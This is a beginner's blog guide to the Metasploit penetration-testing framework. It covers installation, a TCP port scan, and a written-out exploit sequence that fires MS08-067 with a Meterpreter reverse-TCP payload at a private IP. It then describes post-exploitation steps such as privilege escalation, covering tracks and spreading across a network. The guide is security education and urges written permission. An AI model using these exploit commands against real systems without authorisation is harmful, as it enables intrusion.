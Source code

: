 ```yaml
---
layout: post
title: Basic Guide to Metasploit
date: 2024-03-19
categories: ["guide", "metasploit"]
---
```


## Mastering Metasploit: A Comprehensive Guide to Ethical Hacking with Metasploit

Metasploit is a powerful tool for conducting security assessments and penetration testing. It provides a robust framework for developing and executing exploit code against remote target machines. Moreover, Metasploit is equipped with a vast array of tools that can assist in the exploitation of vulnerabilities and the post-exploitation analysis of systems. This guide aims to provide a comprehensive overview of Metasploit, its core functionalities, and practical applications in ethical hacking contexts.

## Understanding Metasploit

Metasploit is more than just a single tool; it's a complete framework that allows ethical hackers to find, exploit, and validate vulnerabilities. It contains a suite of tools used for tasks ranging from reconnaissance to maintaining access to compromised systems. It's widely used by security professionals and ethical hackers to test the security of systems and applications.

### Key Components of Metasploit

- **msfconsole:** The primary interface to the Metasploit Framework. It provides an all-encompassing environment for launching exploits and managing an engagement.
- **Meterpreter:** A powerful payload that provides a command line interface to interact with a compromised system.
- **Modules:** Metasploit is modular by design, offering various modules like exploits, payloads, post-exploitation modules, and auxiliary modules for different tasks.

## Getting Started with Metasploit

### Installation

Metasploit comes pre-installed on security-focused distributions like Kali Linux. However, it can be installed on most Unix-like operating systems, including Windows under WSL (Windows Subsystem for Linux).

#### On Kali Linux

Metasploit is included out of the box in Kali Linux. Ensure it's up to date using the following commands:

```bash
sudo apt-get update
sudo apt-get upgrade
```

#### On Ubuntu/Debian:

For other Linux distributions, you can install Metasploit by first adding its repository and then installing it through the package manager:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall
```

### Basic Usage

To start Metasploit, open your terminal and run:

```bash
msfconsole
```

This command launches the Metasploit console, an interactive shell from which you can execute commands, exploit vulnerabilities, and manage sessions.

## Exploring Metasploit Modules

Metasploit is known for its modular approach, allowing users to pick and choose components as needed. Modules are categorized into several types:

- **Exploits:** Code that takes advantage of a vulnerability in a system or application.
- **Payloads:** Code that runs on a system after an exploit successfully executes. Meterpreter is one of the most sophisticated payloads.
- **Auxiliary:** Additional tools and utilities for reconnaissance, scanning, and fuzzing.
- **Post:** Modules that are used after a successful compromise has been achieved, for actions like privilege escalation, gathering evidence, or covering tracks.

## Conducting a Penetration Test with Metasploit

### Step 1: Reconnaissance

Before exploiting vulnerabilities, you need to know what you're dealing with. Metasploit's auxiliary modules can scan networks and systems to discover open ports, services, and potential vulnerabilities.

Example command to scan a target IP for open ports:

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.105
run
```

### Step 2: Choosing and Configuring an Exploit

After identifying potential vulnerabilities, select an appropriate exploit module and configure it with the target's information.

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.105
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your Local IP>
exploit
```

### Step 3: Gaining Access

Executing the exploit, if successful, will grant you access to the target system. For example, if using Meterpreter as a payload, you will have a wide range of commands at your disposal for interacting with the system.

### Step 4: Post-Exploitation

With access to the target system, you can now execute post-exploitation modules to gather more information, escalate privileges, or spread to other accessible systems on the network.

## Best Practices and Ethical Considerations

- **Permission:** Never use Metasploit on systems or networks without explicit, written permission from the rightful owner.
- **Ethics:** Use Metasploit ethically and responsibly. The goal of ethical hacking is to improve security, not to cause harm or breach confidentiality.
- **Continuous Learning:** The cybersecurity field is always evolving. Stay informed about new vulnerabilities, exploits, and defensive techniques.

## Conclusion

Metasploit is an indispensable tool in the arsenal of any security professional. Its power and flexibility in assessing the security posture of systems make it the go-to framework for penetration testers and ethical hackers. This guide has provided a primer to get started with Metasploit, from installation to conducting a basic penetration test. However, the true depth and capabilities of Metasploit can only be appreciated with continuous learning and hands-on practice. Always remember to hack ethically and with permission, using your skills to contribute to the security and safety of the digital world.

